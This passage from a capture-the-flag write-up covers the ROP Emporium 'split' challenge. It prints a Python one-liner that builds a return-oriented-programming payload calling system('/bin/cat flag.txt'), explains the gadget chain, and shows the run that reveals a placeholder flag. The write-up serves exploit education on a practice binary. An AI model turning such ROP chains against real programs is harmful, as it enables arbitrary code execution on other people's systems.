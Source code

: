 The second ret fits our needs.

The exploit becomes:

```bash
python2 -c 'print "a"*40 + "\xc3\x07\x40\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00" + "\x3e\x05\x40\x00\x00\x00\x00\x00" + "\x60\x05\x40\x00\x00\x00\x00\x00"' > payload
```

This makes the chain `[40 padding + pop_rdi_gadget + address of /bin/cat flag.txt + ret_gadget_for_alignment + address of system]`

Your bits is belong to us now.

```bash
└─$ ./split < payload
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
zsh: illegal hardware instruction (core dumped)  ./split < payload
```

### Pwntools

check the `exploit.py` file for the exploit without ROP object and the `exploit_rop.py` for the exploit using the ROP object.
